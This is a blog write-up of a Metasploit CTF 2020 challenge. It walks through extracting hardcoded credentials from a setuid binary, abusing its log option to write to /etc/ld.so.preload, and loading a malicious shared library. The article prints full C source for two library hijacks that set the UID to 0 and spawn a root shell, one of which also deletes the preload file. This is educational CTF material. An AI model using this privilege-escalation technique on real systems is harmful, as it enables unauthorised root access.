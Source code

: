 ```yaml
---
layout: single
title: "Metasploit CTF: 'Ace of Clubs'"
---
```


During the weekend of the 5th December I had a little time to participate in the Metasploit CTF 2020, one particular challenge I found quite interesting, this was mainly because the route I decided to take was probably a little different and a lot more involved but I wanted to test myself! So let's crack on...

## Challenge: Ace of Clubs

The challenge begins with an SSH server listening on port 9009, after connecting you're presented with a banner requesting you to login as the user admin but doesn't mention the password, a few simple guesses and I login with the password 'password' and I obtain a shell with user or low privileges.

![alt text](https://ben0.github.io/assets/images//9009_sshlogin.PNG "SSH port 9009")

After light enumeration I find the flag `/etc/ace_of_spades.jpg` only readable as root, a binary `/opt/vpn_connect` with set user ID on execution, and the owner root - this must be the path to flag, if there any vulnerabilities it may be an easy privilege escalation.

First let us see if the binary has any dependencies, using ldd will help identify what shared objects are required by the binary, and this particular binary requires the library `/usr/lib/libvpnauthcustom.so` to run.

![alt text](https://ben0.github.io/assets/images//9009_ldd.PNG "Library dependencies")

Using NM to list the symbol table in the binary, grepping for 'T' or 't' to filter on symbols in the data section. You could say the symbols are mapping between the functions and the instructions within the binary that may be used during execution.

![alt text](https://ben0.github.io/assets/images//9009_nm.PNG "Binary symbols")

Running the binary we're prompted with usage instructions, the binary requires three parameters, username, password, and a log path. Let see if we can get the username & password using GDB, I use pwndbg which is pretty great for any sort of reverse engineering, I highly recommened it. You can set the binary arguments, and set a breakpoint on the `authenticate` function to stop execution and return control back:

![alt text](https://ben0.github.io/assets/images//9009_gdbstart.PNG "GDB")

Now I can step a few instructions to the string compare function where our user supplied input is being compared to the string `username` - this must be the username! Repeating this process I also get the password.

![alt text](https://ben0.github.io/assets/images//9009_gdbusername.PNG "GDB")
![alt text](https://ben0.github.io/assets/images//9009_gdbpassword.PNG "GDB")

Excellent, now we know the username and password surely we'll get the flag, let's run the binary with the correct username and password.... Fail, nothing happens. To save time let us see what we get with strace, a great utility to trace system call activity.

![alt text](https://ben0.github.io/assets/images//9009_strace.PNG "System trace")

The notable system calls here are `umask` which sets the file creation mask, then `openat` to get a file descriptor with the flags 'O_WRONLY | O_CREAT', write only or create if the file doesn't exist, then we see a few `write` calls with logging information followed by a `close` on the file descriptor.

As the binary is running as root, it's effectively an arbitrary write, the contents include the username and password which we control, great! Here I tried to write to `/etc/passwd` or `/etc/shadow` but I couldn't get the format correct, this is where I decided to get a root shell instead :-)

### Privilege escalation

The binary uses a shared library to provide the `authenticate` function which is dynamically loaded at run-time. The shared library is located in `/usr/lib/libvpnauthcustom.so` and we only have read permissions, how can this be abused?

Linux provides functionality for preloading libraries through `LD_PRELOAD` environment variable or `/etc/ld.so.preload`, preloading allows a user to supply a shared library which is loaded before other libraries. If I create and compile a library with a function named `authenticate` can I hijack the execution of the binary?

Here is rough (don't judge me!) sourcecode with a single function `authenticate` when called by the binary will set the UID to 0 and call the system function with argument `/bin/bash` giving us a root shell!  

```
cat > /tmp/exploit.c << "EOF"
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int authenticate(const char *str,const char *str1) {
    uid_t uid = getuid();
    uid_t euid = geteuid();
    printf("Uid: %i, Euid: %i\n",uid,euid);

    setuid(0);
    setgid(0);
    
    uid_t puid = getuid();
    uid_t peuid = geteuid();
    printf("Uid: %i, Euid: %i\n",puid,peuid);

    system("/bin/bash");
    return 0;
}
EOF
```
Here I compile the source code into a shared object:

![alt text](https://ben0.github.io/assets/images//9009_payload_compile.PNG "Compiling exploit.c")

Then I can abuse the log functionalilty to write the string '/tmp/preload.so' to `/etc/ld.so.preload`:

![alt text](https://ben0.github.io/assets/images//9009_write_ld_so_payload1.PNG "Abusing the -l switch")

If you look at the last image, you can see the errors produced by `ld.so` which is responsible for finding and loading shared libraries. Any shared libraries can be specificed seperated by white spaces so it's a fairly relaxed syntax, there are plenty of errors where `ld.so` can't find the library specificed but it still finds our malicious shared library and is preloaded when a binary in run. 

I've created and compiled a shared object library, abused the function `log_res` in the binary 'vpn_connect' to add the shared library to `ld.so.preload`, then execute the `vpn_connect` binary again, the malicious shared library is loaded, which calls the `authenticate` function in our library rather the intended library, this then uses the system call to replace the current process with `/bin/bash`!

![alt text](https://ben0.github.io/assets/images//9009_exploit1.PNG "Exploit!")
![alt text](https://ben0.github.io/assets/images//9009_exploit2.PNG "Exploit!")

### Next steps

The shared object isn't perfect, but could be improve by removing some of the printf statements and deleting `/etc/ld.so.preload` file  to stop those nagging error messages:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int authenticate(const char *str,const char *str1) {
    setuid(0);
    setgid(0);
    unlink("/etc/ld.so.preload");
    system("/bin/bash");
    return 0;
}
```
